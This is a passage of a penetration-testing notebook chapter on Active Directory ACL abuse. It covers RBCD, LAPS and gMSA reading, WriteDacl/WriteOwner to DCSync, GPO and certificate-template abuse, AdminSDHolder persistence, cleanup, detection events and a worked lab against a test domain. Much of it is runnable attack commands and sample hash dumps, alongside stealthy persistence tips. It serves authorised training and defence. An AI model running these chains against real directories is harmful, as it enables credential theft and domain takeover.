getST.py -spn 'cifs/target.corp.local' -impersonate Administrator \
  corp.local/'ATTACKPC$':'Attack123!' -dc-ip 10.10.10.10
export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache

# 4. Use the ticket — dump secrets / get SYSTEM
secretsdump.py -k -no-pass target.corp.local
```

Sample step-2 output confirming the DACL write:

```
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKPC$ can now impersonate users on TARGET$ via S4U2Proxy
```

PowerView/Windows equivalent uses `Set-DomainRBCD` or a raw `Set-DomainObject ... msds-allowedtoactonbehalfofotheridentity`.

### 8b. Read LAPS via `ReadProperty`

If you have `ReadProperty` (or GenericAll) over a computer and the domain uses **LAPS**, you can read the randomised local administrator password stored in `ms-Mcs-AdmPwd` (legacy LAPS) or `msLAPS-Password` (Windows LAPS). That is instant local admin on the box.

```powershell
Get-DomainObject -Identity 'TARGET$' -Properties 'ms-Mcs-AdmPwd','ms-Mcs-AdmPwdExpirationTime'
```

```bash
# NetExec module, reads LAPS for every computer you're allowed to read
nxc ldap 10.10.10.10 -u lowpriv -p 'Password123!' -M laps
```



---

## Part 9: `WriteOwner` and `WriteDacl` — Rewriting Control Itself

These two are the "meta" rights: they do not directly do anything to the object's function, but they let you *grant yourself* the rights that do.

### WriteOwner → become owner → rewrite DACL

The **owner** of an object implicitly holds `WRITE_DAC` and `READ_CONTROL` regardless of the DACL. So if you can change the owner (`WriteOwner`), set yourself as owner, and then, as owner, add a `GenericAll` ACE for yourself.

```powershell
# 1. Take ownership
Set-DomainObjectOwner -Identity 'svc_admin' -OwnerIdentity 'lowpriv' -Verbose
# 2. Now grant yourself full control
Add-DomainObjectAcl -TargetIdentity 'svc_admin' -PrincipalIdentity 'lowpriv' -Rights All -Verbose
# 3. Now do whatever (reset password / shadow creds / add SPN)
```

Linux:

```bash
# 1. Take ownership
owneredit.py -action write -new-owner lowpriv -target svc_admin \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
# 2. Grant GenericAll via dacledit
dacledit.py -action write -rights FullControl -principal lowpriv -target svc_admin \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```

### WriteDacl → grant yourself GenericAll directly

If you already have `WriteDacl` you skip the ownership step and add the ACE directly:

```powershell
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity 'lowpriv' -Rights All -Verbose
```

```bash
dacledit.py -action write -rights FullControl -principal lowpriv -target 'Domain Admins' \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```

The most valuable single target is the **domain object itself** (`DC=corp,DC=local`). `WriteDacl` on the domain head lets you grant yourself the two replication extended rights → **DCSync** (Part 10) → every hash in the domain. This is also the premier **persistence** technique: a lone inherited-looking ACE granting `lowpriv` GenericAll or the two Get-Changes rights on the domain root is nearly invisible and grants forever-DCSync.

**Cleanup matters here.** `Add-DomainObjectAcl` fires event **5136** (directory object modified) on the `nTSecurityDescriptor`. Record the SDDL before you change it and restore it after (`Remove-DomainObjectAcl`) so the DACL returns to its original state.



---

## Part 10: The Crown Jewel — DCSync via Replication ACEs

**DCSync** (covered as a technique in Chapter 7) is, at its core, an *ACL abuse*. The MS-DRSR replication protocol lets a principal ask a DC "replicate the secrets of account X to me." The DC allows it *if the requesting principal holds two extended rights on the domain object*:

- **DS-Replication-Get-Changes** (`1131f6aa-...`)
- **DS-Replication-Get-Changes-All** (`1131f6ad-...`)

(Filtered-set is sometimes needed too.) Legitimately, only DCs (`S-1-5-9`) and specific admin groups hold these. Grant them to yourself via WriteDacl on the domain root, and you can replicate `krbtgt`, every user's NT hash, and mint Golden Tickets forever.

Grant + execute:

```bash
# Grant the two replication rights to lowpriv on the domain head
dacledit.py -action write -rights DCSync -principal lowpriv -target-dn 'DC=corp,DC=local' \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10

# Now replicate krbtgt (and everything)
secretsdump.py corp.local/lowpriv:'Password123!'@10.10.10.10 -just-dc-user krbtgt
```

Expected secretsdump output:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
corp.local\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5e4a...c9f1:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9d8f...
```

PowerView grant + Mimikatz DCSync:

```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=corp,DC=local' -PrincipalIdentity 'lowpriv' `
  -Rights DCSync -Verbose
# then:
lsadump::dcsync /domain:corp.local /user:krbtgt
```

**Blue team usage / detection preview:** DCSync from a non-DC IP is detectable via event **4662** with the replication GUIDs in the Properties field, and via network monitoring of DRSUAPI (`DsGetNCChanges`) from non-DC hosts. The *granting* of the rights is event 5136 on the domain object's `nTSecurityDescriptor` — catching that is even better because it catches the persistence before it's used.

---

## Part 11: GPO Abuse and OU-Level ACLs

ACL abuse is not limited to individual accounts. Two container-level cases are devastating:

### 11a. Editing a linked GPO

A Group Policy Object is an AD object (under `CN=Policies,CN=System`) *plus* a folder in SYSVOL. If you have `GenericWrite`/`GenericAll`/`WriteProperty` over a **GPO** that is linked to an OU containing users or computers, you can push a policy (immediate scheduled task, startup script, add-local-admin) that executes on every object in that OU — often including servers or even DCs (Default Domain Controllers Policy).

```bash
# pyGPOAbuse adds an immediate scheduled task to a writable GPO
pygpoabuse.py corp.local/lowpriv:'Password123!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' \
  -command 'net localgroup administrators lowpriv /add' -dc-ip 10.10.10.10
```

`SharpGPOAbuse.exe` is the Windows equivalent (`--AddLocalAdmin`, `--AddUserRights`, `--AddComputerTask`). **Enumerate which OUs a GPO applies to first** — the value is proportional to what the GPO touches. BloodHound's `GPOAppliesTo`/`GpLink` edges show this.

### 11b. CreateChild on an OU

`CreateChild` for the *computer* class on an OU lets you create computer objects there — useful when MachineAccountQuota is 0 but you have this delegated right, enabling the RBCD chain of Part 8. `CreateChild`/`WriteProperty` combos on OUs can also enable **DCShadow** setup (Chapter 7).

| Container right | Where | Turns into |
|---|---|---|
| GenericAll / WriteDacl on OU | OU | Push inheritable ACE → control every child object |
| WriteProperty(GpLink) on OU | OU | Link a malicious GPO you created |
| GenericWrite on GPO | GPO object | Immediate task / startup script on all linked objects |
| CreateChild(computer) on OU | OU | Create computer account (RBCD source) |

**Red team usage:** editing an OU's DACL to add an *inheritable* GenericAll for a benign-looking principal is stealthy, broad persistence — every current and future child object inherits your control.

---

## Part 12: Read-Only ACL Wins — gMSA Passwords and AD CS Enrollment Rights

Not every abusable ACE is a *write*. Some of the most valuable are **read** rights over attributes that hold secrets, and some live on objects most attackers forget are securable — certificate templates.

### 12a. ReadGMSAPassword — `ReadProperty` on `msDS-ManagedPassword`

A **group Managed Service Account** (gMSA) has its password generated and rotated automatically by the KDC. The current password blob lives in the `msDS-ManagedPassword` attribute, but AD only returns it to principals listed in `msDS-GroupMSAMembership` (the `PrincipalsAllowedToRetrieveManagedPassword`). That membership is enforced by — you guessed it — an ACL. If a principal you control is allowed to retrieve the managed password, you can read the blob and derive the account's NT hash, then Pass-the-Hash as a service account that is very often highly privileged.

```bash
# gMSADumper reads the blob for any gMSA you're allowed to retrieve
python3 gMSADumper.py -u lowpriv -p 'Password123!' -d corp.local -l 10.10.10.10
```

Sample output — note it hands you the NT hash directly:

```
Users or groups who can read password for gmsa_svc$:
 > svc_managers
gmsa_svc$:::a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
gmsa_svc$:::aes256-cts-hmac-sha1-96:6f9d...
```

NetExec has this built in: `nxc ldap 10.10.10.10 -u lowpriv -p 'Password123!' --gmsa`. **Blue team usage:** audit `msDS-GroupMSAMembership` on every gMSA; it should list a tightly-scoped group, never `Domain Users` or a broad OU-inherited principal. bloodyAD can also *grant* yourself retrieval if you have write over the gMSA: `bloodyAD ... add groupMember`-style write to `msDS-GroupMSAMembership`, which is itself a WriteProperty ACL abuse.

### 12b. Enrollment and template ACLs (AD CS)

If the domain runs **Active Directory Certificate Services**, certificate templates are AD objects under `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,...` — and they have DACLs. Two ACL-driven abuses matter here (the full ESC taxonomy is a chapter of its own, but the ACL angle belongs with the rest of this material):

- **`WriteProperty`/`GenericWrite`/`WriteDacl`/`WriteOwner` over a certificate template (ESC4):** you can rewrite the template to make it vulnerable — enable `ENROLLEE_SUPPLIES_SUBJECT`, add the Client Authentication EKU, and grant yourself enroll — turning any template you can edit into an ESC1-style domain-takeover primitive.
- **`Enroll` (an extended right) on a misconfigured template (ESC1):** the enroll right itself is an ACE; combined with a template that lets the enrollee supply an arbitrary Subject Alternative Name, you request a cert *as* a Domain Admin.

```bash
# Certipy finds templates where your principal has dangerous rights
certipy find -u lowpriv@corp.local -p 'Password123!' -dc-ip 10.10.10.10 -vulnerable -stdout
# ESC4: overwrite a template's config using WriteDacl/Write over it, then enroll
certipy template -u lowpriv@corp.local -p 'Password123!' -template VulnTemplate -save-old
certipy req -u lowpriv@corp.local -p 'Password123!' -ca CORP-CA -template VulnTemplate \
  -upn administrator@corp.local -dc-ip 10.10.10.10
```

The takeaway that ties it back to this chapter: **a certificate template is just another securable AD object**, and `WriteDacl`/`WriteOwner`/`GenericWrite` over it are the same primitives from Part 9 applied to a very high-value target.

---

## Part 13: ACL-Based Persistence and Cleanup Discipline

ACL abuse is not only for escalation — it is the *stealthiest persistence* mechanism in AD, because a single hidden ACE grants durable access, survives password resets, and looks like configuration rather than malware. Three techniques dominate.

### 13a. The DCSync backdoor (domain-root ACE)

Covered in Part 10 as an attack; as persistence it is unmatched. Grant a low-value, unwatched principal (a disabled-looking service account, or even a computer you own) the two `DS-Replication-Get-Changes*` rights on the domain object. You can now DCSync any time to re-derive `krbtgt` and every hash — no implants, no beacons. The only artefact is the 5136 at grant time and a 4662 at each use; if auditing is not tuned for those GUIDs, it is invisible.

### 13b. AdminSDHolder abuse — persistence into *every* protected account at once

`AdminSDHolder` is the template object (`CN=AdminSDHolder,CN=System,DC=...`) whose DACL SDProp copies onto every protected (Tier-0) object every ~60 minutes. Normally that *protects* those accounts. But if you can write the AdminSDHolder object's DACL, you add an ACE granting yourself `GenericAll`, and within an hour **SDProp propagates your ACE onto Domain Admins, Enterprise Admins, the built-in Administrator, and every member of every protected group.** One write → control of all Tier-0 accounts, and it *reasserts itself hourly* even if a defender removes your ACE from an individual account.

```powershell
# Add GenericAll for lowpriv onto the AdminSDHolder template; SDProp does the rest
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' `
  -PrincipalIdentity 'lowpriv' -Rights All -Verbose
# Optionally force SDProp immediately instead of waiting ~60 min (on a DC):
# Invoke-ADSDPropagation   (or set dSHeuristics / runProtectAdminGroupsTask)
```

**Blue team usage:** monitor 5136 on `CN=AdminSDHolder` specifically — writes to it are extremely rare and legitimate ones are attributable to known Tier-0 change windows. Also periodically diff the DACL of protected accounts against a known-good baseline; SDProp will faithfully replicate an attacker's ACE, so the baseline is your only tell.

### 13c. Cleanup discipline (mandatory on real engagements)

Every ACL change you make is a live, exploitable, and *auditable* modification to a production directory. Leaving them behind is both a client risk and an OPSEC failure. Before you touch anything, record the original state; after you finish, restore it. A minimum checklist:

| You did | You must undo |
|---|---|
| `dacledit -action write` (added ACE) | `dacledit -action restore -file <.bak>` |
| `owneredit -action write` (changed owner) | Restore original owner SID |
| Added group member | `Remove-DomainGroupMember` / `bloodyAD remove groupMember` |
| Wrote an SPN (targeted Kerberoast) | `Set-DomainObject -Clear serviceprincipalname` |
| Added `msDS-KeyCredentialLink` (Shadow Creds) | `pywhisker --action remove` / `Whisker.exe remove` |
| Wrote RBCD attribute | `rbcd.py -action remove` (or `flush`) |
| Created a computer account | `addcomputer.py -delete` |
| Reset a password | Restore original (if known) or coordinate with client |

**Report every change** in the engagement notes with timestamps so the client's SOC can verify your activity and distinguish it from a real intruder. The `.bak` files that `dacledit.py`/`certipy -save-old` produce exist precisely so you can prove and reverse what you did.

---

## Part 14: Detection & Defense Angle

ACL abuse is powerful precisely because much of it looks like normal administration. Detection therefore leans on three pillars: **auditing the right events**, **baselining who should hold dangerous rights**, and **graphing** the environment the way attackers do.

### Key Windows events

| Event ID | Log / condition | What it catches |
|---|---|---|
| **4662** | DS Access (needs SACL auditing enabled) | An operation on an object — with the replication GUIDs, this is **DCSync** |
| **5136** | Directory Service Changes | An AD object was modified — watch `nTSecurityDescriptor` (DACL change / ACL persistence), `member`, `msDS-KeyCredentialLink`, `msDS-AllowedToActOnBehalfOfOtherIdentity`, `servicePrincipalName` |
| **5137 / 5139 / 5141** | DS Changes | Object created / moved / deleted |
| **4670** | Permissions on an object changed | DACL/owner change on an object |
| **4724** | Account mgmt | Password reset attempt (ForceChangePassword abuse) |
| **4728 / 4729** | Account mgmt | Member added / removed from a global security group |
| **4738** | Account mgmt | User account changed (SPN write, UAC flags) |
| **4741** | Account mgmt | Computer account created (MachineAccountQuota / addcomputer) |

Enabling this requires the **"Audit Directory Service Changes"** and **"Audit Directory Service Access"** advanced audit policies *and* SACL entries on the objects you care about (4662 in particular is silent without an audit ACE on the domain object for the replication rights).

### Detecting DCSync specifically

The gold-standard Sigma-style logic: event **4662**, `Properties` contains `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Get-Changes) or `1131f6ad-...` (Get-Changes-All), and the `SubjectUserName` is **not** a domain controller machine account. Complement with network detection: `DsGetNCChanges` DRSUAPI RPC calls originating from a host that is not a registered DC.

```
title: Possible DCSync from non-DC principal
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
  filter:
    SubjectUserName|endswith: '$'   # exclude legit DC machine accounts (refine to known DCs)
  condition: selection and not filter
```

### Baseline and hardening

- **AdminSDHolder / SDProp:** protected groups (Domain/Enterprise/Schema Admins, Account/Backup/Print/Server Operators, and members thereof) have their DACL reset from the `AdminSDHolder` template object every ~60 minutes and inheritance disabled (`adminCount=1`). Any ACE an attacker plants on those objects is reverted — so Tier-0 ACL persistence must target *non-protected* objects, which is exactly where defenders should audit. Do **not** weaken AdminSDHolder to "fix" broken delegation.
- **Least-privilege delegation:** replace broad `GenericAll`-on-OU delegations with scoped `WriteProperty` on the specific attributes needed. Audit `Find-InterestingDomainAcl` output and BloodHound "Outbound Object Control" from non-Tier-0 principals.
- **MachineAccountQuota = 0:** removes the "any user can create a computer" primitive underpinning RBCD chains.
- **Protected Users group + "Account is sensitive and cannot be delegated":** blunts delegation-based abuse of compromised accounts.
- **Monitor `msDS-KeyCredentialLink` and `msDS-AllowedToActOnBehalfOfOtherIdentity` writes (5136)** — legitimate writes are rare and attributable.

### Run BloodHound as the blue team

The single most effective defensive step is to collect with SharpHound and query the *same* shortest-path-to-DA queries attackers use, then remediate the edges. If BloodHound says `Authenticated Users → GenericWrite → Exchange group → ... → Domain Admins`, that path exists whether or not an attacker has found it yet.



---

## Part 15: Full Worked Lab — Two Chains to Domain Admin

**Scope & ethics:** this lab assumes a fully isolated, authorised test domain (`corp.local`, DC `10.10.10.10`) that you own or have explicit written permission to attack. Nothing here is safe or lawful against systems you do not control. We start from one low-privilege credential, `lowpriv:Password123!`, obtained via an earlier foothold.

### Step 0 — Map outbound object control

```bash
# Collect for BloodHound from Linux
bloodhound-python -u lowpriv -p 'Password123!' -d corp.local -ns 10.10.10.10 -c All --zip
# Or quick manual sweep:
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' get writable --detail
```

Output (trimmed) reveals two independent primitives:

```
distinguishedName: CN=IT Support,OU=Groups,DC=corp,DC=local
   permission: WRITEDACL
distinguishedName: CN=WEB01,OU=Servers,DC=corp,DC=local
   permission: GENERIC_ALL
```

So `lowpriv` has **WriteDacl on the IT Support group** and **GenericAll on the WEB01 computer**. And separately, BloodHound shows `IT Support` is nested inside a group that holds DCSync on the domain. Two paths.

### Chain A — WriteDacl on a group → membership → DCSync → Domain Admin

```bash
# 1. Use WriteDacl to grant ourselves full control over the group
dacledit.py -action write -rights FullControl -principal lowpriv -target 'IT Support' \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```
```
[*] DACL backed up to dacledit-20260807-...bak   <-- keep this to restore later
[*] DACL modified successfully! lowpriv now has FullControl over IT Support
```
```bash
# 2. Add ourselves to the group (GenericAll includes WriteProperty member)
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  add groupMember 'IT Support' lowpriv
```
```
[+] lowpriv added to IT Support
```
```bash
# 3. IT Support is nested in a group holding replication rights -> DCSync krbtgt
#    (our token now includes IT Support transitively; re-auth to refresh the TGT)
secretsdump.py corp.local/lowpriv:'Password123!'@10.10.10.10 -just-dc-user krbtgt
```
```
corp.local\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5e4a...c9f1:::
[*] Kerberos keys grabbed
```
```bash
# 4. Golden Ticket -> full domain (Chapter 6), or just DCSync the Administrator hash:
secretsdump.py corp.local/lowpriv:'Password123!'@10.10.10.10 -just-dc-user Administrator
# 5. Pass-the-hash to a DC shell
evil-winrm -i 10.10.10.10 -u Administrator -H <admin_nthash>
```
```bash
# 6. CLEANUP - remove membership and restore the group DACL
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  remove groupMember 'IT Support' lowpriv
dacledit.py -action restore -file dacledit-20260807-...bak \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```

### Chain B — GenericAll on a computer → RBCD → SYSTEM on WEB01

```bash
# 1. Create a computer account we control (MachineAccountQuota default 10)
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'Attack123!' \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```
```
[*] Successfully added machine account ATTACKPC$ with password Attack123!.
```
```bash
# 2. Configure RBCD on WEB01 delegating to ATTACKPC$ (uses our GenericAll)
rbcd.py -delegate-to 'WEB01$' -delegate-from 'ATTACKPC$' -action write \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```
```
[*] Delegation rights modified successfully!
[*] ATTACKPC$ can now impersonate users on WEB01$ via S4U2Proxy
```
```bash
# 3. S4U impersonate Administrator to CIFS on WEB01
getST.py -spn 'cifs/web01.corp.local' -impersonate Administrator \
  corp.local/'ATTACKPC$':'Attack123!' -dc-ip 10.10.10.10
export KRB5CCNAME='Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache'
# 4. SYSTEM-level action on WEB01
secretsdump.py -k -no-pass web01.corp.local
psexec.py -k -no-pass web01.corp.local        # interactive SYSTEM shell
```
```bash
# 5. CLEANUP - clear the RBCD attribute and remove the computer account
rbcd.py -delegate-to 'WEB01$' -delegate-from 'ATTACKPC$' -action remove \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
addcomputer.py -computer-name 'ATTACKPC$' -delete \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```

Both chains started from a single unprivileged credential and one misconfigured ACE. That is the entire point of ACL abuse.



---

## Part 16: Final Revision / Summary

- **Everything securable in AD carries a security descriptor**: Owner + DACL (+ SACL). The **DACL is a list of ACEs**; each ACE = trustee SID + access mask + optional ObjectType GUID + inheritance flags.
- **Whole-object rights** — `GenericAll`, `GenericWrite`, `WriteOwner`, `WriteDacl` — hand you broad control. `WriteOwner`→become owner→`WriteDacl`; `WriteDacl`→grant yourself `GenericAll`.
- **Scoped rights depend on the GUID.** `ExtendedRight` + `User-Force-Change-Password` = reset a password; `ExtendedRight` + the two `DS-Replication-Get-Changes*` GUIDs on the domain root = **DCSync**. `WriteProperty` + the `member` GUID = add group members; + `servicePrincipalName` = targeted Kerberoast; + `msDS-KeyCredentialLink` = Shadow Credentials; + `msDS-AllowedToActOnBehalfOfOtherIdentity` = RBCD.
- **Well-known trustees widen blast radius**: an ACE granting a dangerous right to `Authenticated Users`/`Everyone`/`Domain Users` is a domain-wide primitive.
- **Prefer quiet, reversible abuses**: Shadow Credentials and targeted Kerberoast over password resets (which fire 4724 and break accounts).
- **Inheritance and AdminSDHolder/SDProp** shape what sticks: SDProp reverts DACLs on protected objects hourly, so durable ACL persistence targets non-protected objects — often the domain root itself for DCSync.
- **Detection** hinges on 4662 (replication GUIDs = DCSync), 5136 (`nTSecurityDescriptor`, `member`, key-credential, RBCD attribute writes), 4728/4724/4741, plus running BloodHound defensively.

---

## Part 17: Cheat Sheet / Quick Reference

**Enumerate (Windows / PowerView):**
```powershell
Get-DomainObjectAcl -Identity <target> -ResolveGUIDs
Find-InterestingDomainAcl -ResolveGUIDs
Get-DomainObjectAcl -Identity 'DC=corp,DC=local' -ResolveGUIDs | ? {$_.ObjectAceType -match 'Get-Changes'}
```

**Enumerate (Linux):**
```bash
bloodyAD --host DC -d dom -u u -p p get writable --detail
dacledit.py -action read -target <obj> -principal '' dom/u:p -dc-ip DC
bloodhound-python -u u -p p -d dom -ns DC -c All --zip
```

| Right you hold | On object type | Attack | Command |
|---|---|---|---|
| GenericAll / ForceChangePassword | User | Reset password | `Set-DomainUserPassword` / `bloodyAD set password` |
| GenericWrite | User | Targeted Kerberoast | `Set-DomainObject -Set @{serviceprincipalname=...}` |
| GenericWrite | User | Shadow Credentials | `pywhisker --action add` → PKINIT |
| GenericAll/Write/WriteProperty(member) / Self | Group | Add member | `Add-DomainGroupMember` / `bloodyAD add groupMember` |
| GenericAll/Write | Computer | RBCD → SYSTEM | `rbcd.py -action write` + `getST.py -impersonate` |
| ReadProperty(ms-Mcs-AdmPwd) | Computer | Read LAPS | `nxc ldap -M laps` |
| WriteOwner | Any | Own → then WriteDacl | `owneredit.py` / `Set-DomainObjectOwner` |
| WriteDacl | Any | Grant self GenericAll | `dacledit.py -rights FullControl` / `Add-DomainObjectAcl` |
| WriteDacl | Domain root | Grant self DCSync | `dacledit.py -rights DCSync` → `secretsdump.py` |
| GenericWrite | GPO | Push task/script to OU | `pygpoabuse.py` / `SharpGPOAbuse` |

**GUIDs to recognise:** `1131f6aa`/`1131f6ad` = DCSync · `00299570` = Force-Change-Password · `bf9679c0` = member · `f3a64788` = Validated-SPN · `3f78c3e5` = LAPS ms-Mcs-AdmPwd.

**Key events:** 4662 (DCSync GUIDs) · 5136 (DACL/member/keycred/RBCD writes) · 4724 (pwd reset) · 4728/4729 (group member ±) · 4741 (computer created).

---

## Part 18: Common Pitfalls

- **Forgetting to refresh your token/TGT after adding yourself to a group.** Group membership is baked into your Kerberos ticket/access token at logon; you must re-authenticate (get a fresh TGT) before the new rights take effect. On Linux, request a new TGT; on Windows, log off/on or use `runas /netonly` with a fresh logon.
- **Confusing `GenericWrite` with password-reset ability.** `GenericWrite` on a user does **not** grant password reset — that requires `GenericAll` or the `User-Force-Change-Password` extended right. Use targeted Kerberoast / Shadow Credentials instead when you only have GenericWrite.
- **Attacking protected (adminCount=1) objects and watching your ACE vanish.** SDProp reverts DACLs on Tier-0 objects roughly hourly. Your GenericAll on Domain Admins will disappear; membership won't, but it screams in the SOC.
- **Not backing up the DACL/attribute before you change it.** `dacledit.py` writes a `.bak`; keep it. Always restore `nTSecurityDescriptor`, remove RBCD attributes, delete created computer accounts, and remove added members when the engagement ends.
- **Leaving a bogus SPN on a user after targeted Kerberoast** — clear `servicePrincipalName` afterward or you leave a durable, detectable artifact.
- **Assuming MachineAccountQuota > 0.** Many hardened domains set it to 0; then RBCD needs an existing computer you control or `CreateChild(computer)` on an OU.
- **Reading GUIDs without `-ResolveGUIDs`** and mistaking a benign attribute-write ACE for a dangerous extended right (or vice versa). Always resolve.
- **DCSync failing with only one replication right.** You typically need *both* Get-Changes **and** Get-Changes-All; `-rights DCSync` in dacledit adds both.

---

## Part 19: Practice Labs, Questions & Resources

**Hands-on labs that train exactly this skill:**

- **HackTheBox** — *Forest*, *Sauna*, *Active*, *Cascade*, *Blackfield*, *Intelligence*, *Support* — chains built on ForceChangePassword, WriteDacl→DCSync, group-membership, RBCD, and Shadow Credentials. *Forest* in particular is the canonical `Account Operators → GenericAll → Exchange Windows Permissions → WriteDacl on domain → DCSync` path.
- **TryHackMe** — *Attacktive Directory*, *Enterprise*, *Post-Exploitation Basics*, the *Throwback* network — ACL and delegation abuse end to end.
- **BloodHound + GOAD (Game of Active Directory)** — the best self-hosted range for practising ACL path-finding; deliberately seeded with GenericAll/WriteDacl/RBCD misconfigurations across a multi-domain forest.
- **Vulnlab** *(Reset, Baby, etc.)* and purple-team labs for ACL persistence and detection practice.
- **HackTheBox Academy** — the *ACL Abuse* and *DACL Attacks* modules walk the PowerView and BloodHound workflow step by step.

**Reference reading:**

- BloodHound edge documentation (each edge — `GenericAll`, `GenericWrite`, `WriteDacl`, `WriteOwner`, `AddMember`, `ForceChangePassword`, `AllowedToAct`, `AddKeyCredentialLink`, `GetChanges/GetChangesAll` — has an "abuse info" and "opsec" tab; read them all).
- The MS-ADTS docs for security-descriptor structure, and MS-DRSR for the replication rights behind DCSync.
- Tool docs: PowerView, Impacket (`dacledit.py`, `owneredit.py`, `rbcd.py`, `addcomputer.py`, `secretsdump.py`), bloodyAD, pywhisker/Whisker, pyGPOAbuse/SharpGPOAbuse, NetExec.

**Self-test questions:**

1. You hold `GenericWrite` (not `GenericAll`) over a user account. Give two distinct ways to compromise that account *without* resetting its password, and state which one is quieter and why.
2. In an ACE, what does the **ObjectType GUID** determine, and why does the same `ExtendedRight` mask mean "reset a password" in one ACE and "replicate the domain" in another? Name the GUIDs.
3. You have `WriteOwner` but not `WriteDacl` on a target. Walk through, step by step, how you turn that into full control, and identify the implicit right that makes it work.
4. Why does an ACE you plant granting yourself `GenericAll` on the *Domain Admins* group disappear within an hour, while an ACE granting yourself the replication rights on the *domain root* persists? Which single mechanism explains the difference?
5. A SIEM analyst wants one detection that catches the *use* of a DCSync backdoor and another that catches its *creation*. Which event ID and field values would each rely on, and why is catching the creation preferable?

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/09-acl-ace-abuse-in-active-directory), with comments and the latest edits.*
